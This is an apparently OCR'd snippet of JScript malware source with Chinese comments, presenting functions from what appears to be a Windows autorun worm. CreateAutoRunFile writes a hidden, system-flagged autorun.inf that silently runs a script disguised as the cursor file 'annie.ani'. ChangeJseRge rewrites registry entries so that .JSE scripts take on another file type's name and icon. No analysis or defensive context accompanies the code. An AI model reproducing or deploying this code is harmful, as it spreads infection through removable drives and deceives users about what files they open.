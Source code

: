 function CreateAutoRunFile(filename) {
    var str = '[autorun]\nshellexecute=wscript.exe //e:jscript annie.ani /a\nshell\\open\\command=wscript.exe //e:jscript annie.ani /a\nshell\\explore\\command=wscript.exe //e:jscript annie.ani /a';
    if (ReadText(filename) != str) {
        SetFileNewAttributes(filename, 0);
        try {
            var f = fso.CreateTextFile(filename, true);
            f.Write(str);
            f.Close();
        } catch (e) {
            if (fso.FolderExists(filename)) {
                DeleteFolder(filename);
                CreateAutoRunFile(filename);
            }
        } finally {
            SetFileNewAttributes(filename, 39);
        }
    }
}

function ReadText(filename) {
    try {
        return fso.OpenTextFile(filename, 1).ReadAll();
    } catch (e) {
        return '';
    }
}


function SetFileNewAttributes(filename, newattributes) {
// newattributes 可用值
// 常数          值     描述
// Normal        0      普通文件。没有设置任何属性。
// ReadOnly      1      只读文件。可读写。
// Hidden        2      隐藏文件。可读写。
// System        4      系统文件。可读写。
// Directory     16     文件夹或目录。只读。
// Archive       32     上次备份后已更改的文件。可读写。
// Alias         1024   链接或快捷方式。只读。
// Compressed    2048   压缩文件。只读。
    if (fso.FileExists(filename)) {
        try {
            var f = fso.GetFile(filename);
            f.Attributes = newattributes ;
        } catch (e) {}
    }
}

function ChangeJseRge(item) {
// 修改.JSE文件的默认值、默认图标等注册表信息
    shell.RegWrite('HKCR\\' + RegReadItem('.JSE') + '\\', RegReadItem(RegReadItem(item) + '\\'));
    shell.RegWrite('HKCR\\' + RegReadItem('.JSE') + '\\DefaultIcon\\', RegReadItem(RegReadItem(item) + '\\DefaultIcon\\'));
    shell.RegWrite('HKCR\\' + RegReadItem('.JSE') + '\\FriendlyTypeName', RegReadItem(RegReadItem(item) + '\\'), 'REG_EXPAND_SZ');
}
